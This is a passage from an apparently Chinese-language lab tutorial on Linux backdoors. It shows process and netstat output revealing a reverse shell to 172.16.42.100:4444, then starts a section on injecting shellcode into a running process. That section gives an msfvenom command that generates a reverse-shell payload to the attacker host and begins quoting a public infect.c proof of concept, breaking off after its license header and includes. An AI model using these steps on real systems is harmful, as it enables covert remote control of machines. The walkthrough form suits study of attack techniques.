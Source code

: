 **再次查看进程：**

```bash
➜  ps -ef | grep bash
root       1694   1299  0 12:08 pts/1    00:00:00 /bin/bash
root       1785    978  0 12:10 pts/0    00:00:00 grep --color=auto --exclude-dir=.bzr --exclude-dir=CVS --exclude-dir=.git --exclude-dir=.hg --exclude-dir=.svn --exclude-dir=.idea --exclude-dir=.tox bash
➜  ps -ef | grep python
root        435      1  0 11:27 ?        00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root       1547   1299  0 12:04 pts/1    00:00:00 python3 -m http.server 3333
root       1800    978  0 12:10 pts/0    00:00:00 grep --color=auto --exclude-dir=.bzr --exclude-dir=CVS --exclude-dir=.git --exclude-dir=.hg --exclude-dir=.svn --exclude-dir=.idea --exclude-dir=.tox python
```

**通过网络连接查看：**

通过网络连接可以发现

```bash
➜  netstat -pantu
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
......
tcp        0      0 172.16.42.151:39410     172.16.42.100:4444      ESTABLISHED 1694/bas
......
```



## 2. 通过shellcode注入进程

攻击机器：172.16.42.100

靶机：172.16.42.151

获取poc：https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c

生成shellcode(如果不生成，会在靶机上生成一个终端):

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.16.42.100 LPORT=4444 -f c
```

替换shellcode(==注意长度#define SHELLCODE_SIZE 74，等于shellcode的大小，一定要设置为相应大小的值==）:

```c
/*
  Mem Inject
  Copyright (c) 2016 picoFlamingo
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


```